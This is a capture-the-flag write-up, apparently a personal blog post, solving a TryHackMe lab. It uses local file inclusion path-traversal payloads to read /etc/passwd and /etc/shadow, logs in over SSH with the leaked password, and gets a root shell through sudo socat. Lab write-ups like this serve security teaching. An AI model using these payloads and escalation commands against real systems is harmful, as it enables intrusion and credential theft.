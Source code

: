 ```yaml
---
title: Local File Inclusion CTF
author: Dimitrios Tsarouchas
date: 2021-02-02 20:55:00 +0800
categories: [CTFs, TryHackMe]
tags: [ctf, tryhackme, linux]
pin: true
featured-image: /assets/img/lfi-2.jpg
featured-image-alt: LFI
---
```


![Local File Inclusion](/assets/img/lfi-2.jpg)

## Introduction

In this article we are going to capture root flag on a Linux machine using Local File Inclusion vulnerability. We have shown in [previous article](/posts/Local-File-Inclusion/) that an attacker gets advantage of improper input sanitisation by changing the value of a parameter in the website's URL. 

## Exploring the website to find ways for LFI attack

Opening the given ip address using Firefox we are directed to Falcon's website home page where we can see three articles been posted. We are looking for a parameter that we can modify to gain access to `/etc/passwd` file. 

![Falconfeast website](/assets/img/LFI/falconfeastwebsitemainpage.png)
*falconfeast's website home page*

By clicking on view details on the "Hacking this world" post and checking the URL address bar we can find the `name` parameter along with its value.

![Parameter name](/assets/img/LFI/Parametername.png)
*Parameter name seem to be vulnerable to LFI*

## Searching for users in the /etc/passwd file

Now that we found the variable `name` we will try to check if it is vulneable to LFI attack by passing the value of `../../../../etc/passwd`. 

And....BOOM!!!

The `/etc/passwd` file is now visible to us showing all the users that live inside the system. One user that stands out and might be of interest of further investigation is the *flaconfeast* account. Another valuable information displayed here is the next column that might probably indicate the password of that account (*falconfeast:rootpassword*). 

We can also get the password hash from the `/etc/shadow` file by passing the value of `../../../../etc/shadow` and crack it using Hashcat. 

![Found user falconfeast](/assets/img/LFI/Founduserfalconfeast.png)
*Found user falconfeast in /etc/passwd file and a password candidate*

![Falconfeast hash](/assets/img/LFI/passwordhash.png)
*Found falcnfeast's password hash in /etc/shadow file*

## Login via SSH as falconfeast

We need to find the user flag so we login via SSH as falconfeast user using the password of rootpassword. If it fail, that would mean we have to crack the obtained password hash because the password (*rootpassword*) was incorrect.

```terminal
#ssh falconfeast@10.10.173.178                  
falconfeast@inclusion:~$ pwd
/home/falconfeast
falconfeast@inclusion:~$ ls -l
total 8
drwxr-xr-x 2 root        root        4096 Jan 21  2020 articles
-rw-r--r-- 1 falconfeast falconfeast   21 Jan 22  2020 user.txt
falconfeast@inclusion:~$ cat user.txt 
```

## Privilege Escalation

The password (rootpassword) found at `/etc/passwd` gave us access to flaconfeast's account and we are now logged into the system with user privileges. Our next goal is to escalate our privileges for gaining root access and find the root flag. 

We need to find a vector such as a binary that falconfeast can execute as superuser and exploit it to gain root access. By using `sudo -l` we can check if falconfeast is able to execute any command as a superuser in that machine.

![Sudo -l](/assets/img/LFI/sudo-l.png)
*What commands falconfeast can execute as superuser?*

As we can see falconfeast can execute as the root user the `/usr/bin/socat` command. 

Lets visit [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo){:target="_blank"} website and find a way to exploit socat.

![GTFOBins](/assets/img/LFI/gtfo.png)
*GTFOBins sudo socat*

Now we need to run the command that will give us root access on the system and will find the root flag.

```terminal
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
pwd
/home/falconfeast
cd /root
ls -l
total 4
-rw-r--r-- 1 root root 21 Jan 22  2020 root.txt
cat root.txt
```